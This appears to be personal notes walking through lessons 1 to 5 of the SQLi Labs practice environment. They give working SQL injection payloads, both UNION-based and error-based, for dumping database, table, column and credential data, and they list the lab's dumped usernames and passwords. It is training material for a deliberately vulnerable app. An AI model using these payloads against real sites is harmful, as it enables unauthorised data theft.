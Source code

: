 __SQLI LABS__
==========
First we have to setup the lab:
	* install apache2 webserver by ">sudo apt install apache2"
	* install mysql by ">sudo apt-get install mysql-srver"
	* install php7
	* git clone the repository of the lab and start all the service required

#OBJECTIVE
==========
dump the contents of the databse using sqli
 
##LESS-1
========
* first we have to pass the "?id=" parameter and pass a numeric value
* fuzz the parameter to get sqli
* when we put "'" we get sql error thus we have a sql injection we can comment ou the rest of the query by "-- -"or "--+" or any comments in sql
* then we can dump the contents

 ##payloads to dump
---------------------
check no: of table included = "/?id=1'order by 1,2,3,4--+"
to find the name of data base= "/id=-1' union select 1,database(),3--+"
to find table name 	    = "/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+"
to find the column name	    = "/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+"
to find the data 	    = "/?id=-1' union select 1,group_concat(username),concat(password) from users"

contents of database
--------------------
name of database=security
tables		=emails,referers,uagents,users
columns		=CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER,id,password,username
usernames	=Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password	=Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4  

##LESS-2
========
* when we fuzz the id parameter this time single qot(') i.e " ?id=1' "does not work
* when we put a "'" before and after the 1 it worked i.e "?id='1'"
* we can now comment (--+) rest and dump teh database using the same payloads (change 1' => '1') from lesson 1

contents of database
--------------------
name of database=security
tables          =emails,referers,uagents,users
columns in email=email_id,id
id		=1,2,3,4,5,6,7,8
email		=Dumb@dhakkan.com,Angel@iloveu.com,Dummy@dhakkan.local,secure@dhakkan.local,stupid@dhakkan.local,superman@dhakkan.local,batman@dhakkan.local,admin@dhakkan.com 


##LESS-3
========
* in this lesson when we fuzz the id parameter we can find " ') "  is used to take our input so we can use " ') "  as payload
* the comment it and do the same payload form less-1

contents of database
--------------------
name of database=security
tables          =emails,referers,uagents,users
columns in uagents=id,ip_address,uagent,username

LESS-4
======
* in this challenge we have to use ' ") ' as payload
* we can use 'and' or 'or' to complete the query insted of commenting
contents of database
--------------------
name of database=security
tables		=emails,referers,uagents,users
columns in referer=id,ip_address,referer


LESS-5
======
* In this challenge we don't  get any response form the databse directy to the browser
* but we get the error when we break the query,so we can dump the database through the error
* we can use rand(),floor(),count()


payloads
---------
 this will get database ="/?id=1' AND (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b)--+"
to get table names="/?id=1' AND (select 1 from(select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+"
to get columns=/?id=1' AND (select 1 from(select count(*),concat((select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+

contents of database
--------------------
databse=security
tables=emails
columns=id
